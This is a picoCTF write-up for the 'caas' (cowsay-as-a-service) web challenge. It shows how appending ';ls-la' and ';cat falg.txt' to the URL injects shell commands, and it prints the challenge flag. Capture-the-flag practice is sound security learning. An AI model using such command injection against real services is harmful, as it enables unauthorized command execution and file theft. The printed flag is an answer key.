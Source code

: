 # Medium Challenge

> Read full challenge at: https://play.picoctf.org/practice/challenge/15?category=5&page=5


**Hint**: Do you think you can master rockstar?

## Solution

> So, what is "caas":
>
>  Containers as a service (CaaS) is a cloud-based service that allows software developers and IT departments to upload, organize, run, scale, and manage containers by using container-based virtualization.

- I use FireFox for this challenge

**Step** 1: Copy the [link](https://caas.mars.picoctf.net/) in this challenge and paste into a broswer(Chorme, Firefox, etc)

![Image of step 1](image0.png)


**Step 2** : Make a request to the following URL to cowsay your message

Follow the instruction in the website I will copy the URL, the message I will write a random sring like the iamge below 

```
https://caas.mars.picoctf.net/cowsay/jajgagjagjajgal
```

> You can copy and try it on your browser

![Iamge of step 2](image1.png)

**Step 3** : Find the `Flag`

As I mention above, I can use the command on the url bar like using command on terminal, I will use command **ls-la** to lis all file:
```
https://caas.mars.picoctf.net/cowsay/jajgagjagjajgal;ls-la
```

![Image of step 3.1](image2.png)

So, after list all all file I can see the file **falg.txt** so let use command:
```
https://caas.mars.picoctf.net/cowsay/jajgagjagjajgal;ls-la;cat falg.txt
```

![Image of step 3.2](image4.png)


So, the flag is `picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}`
